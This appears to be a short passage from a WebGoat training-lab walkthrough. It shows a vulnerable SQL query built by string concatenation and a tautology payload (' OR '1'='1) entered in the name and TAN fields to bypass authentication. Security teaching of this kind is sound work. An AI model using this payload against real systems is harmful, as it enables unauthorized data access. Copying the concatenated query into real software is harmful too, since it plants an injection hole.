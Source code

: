 ![](pictures/WebGoat_10_numeric_SQL_injection.png)

### 11. Try it! String SQL injection
```
SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';
Employee Name:' OR '1'='1
Authentication TAN:' OR '1'='1`
```
![](pictures/WebGoat_11_String_SQL_injection.png)
